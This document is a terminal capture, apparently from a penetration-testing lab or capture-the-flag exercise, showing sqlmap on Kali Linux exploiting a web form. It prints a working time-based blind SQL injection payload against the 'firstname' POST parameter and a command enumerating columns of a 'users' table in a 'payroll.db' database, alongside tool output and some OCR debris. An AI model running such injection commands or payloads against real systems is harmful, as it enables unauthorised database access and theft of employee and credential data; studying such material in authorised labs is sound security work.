 do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
C
[14:42:08] [INFO] adjusting time delay to 1 second due to good response times
TIONS
[14:42:27] [INFO] retrieved: SYSTEM_VARIABLES
[14:43:19] [INFO] retrieved: TABLES
[14:43:38] [INFO] retrieved: TABLESPACES
[14:44:01] [INFO] retrieved: TABLE_CONSTRAINTS
[14:44:53] [INFO] retrieved: TABLE_PRIVILEGES
[14:45:35] [INFO] retrieved: TRIGGERS
[14:45:59] [INFO] retrieved: ^C


--------------

┌──(kali㉿kali)-[~]
└─$ sqlmap -r save_employs --batch --dbms mysql --threads 10 -D payroll.db  -T users --columns
        ___
       __H__                                                                                                        
 ___ ___[']_____ ___ ___  {1.6.7#stable}                                                                            
|_ -| . ["]     | .'| . |                                                                                           
|___|_  [(]_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:47:35 /2022-10-09/

[14:47:35] [INFO] parsing HTTP request from 'save_employs'
[14:47:35] [WARNING] provided value for parameter 'id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:47:35] [WARNING] provided value for parameter 'middlename' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:47:35] [WARNING] provided value for parameter 'department_id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:47:35] [WARNING] provided value for parameter 'position_id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:47:35] [WARNING] provided value for parameter 'salary' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:47:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: firstname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=&firstname=sql' AND (SELECT 3175 FROM (SELECT(SLEEP(5)))erEm) AND 'LLaz'='LLaz&middlename=&lastname=map&department_id=&position_id=&salary=
---
[14:47:36] [INFO] testing MySQL
[14:47:36] [INFO] confirming MySQL
[14:47:36] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[14:47:36] [INFO] fetching columns for table 'users' in database 'payroll.db'
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[14:47:36] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[14:47:38] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 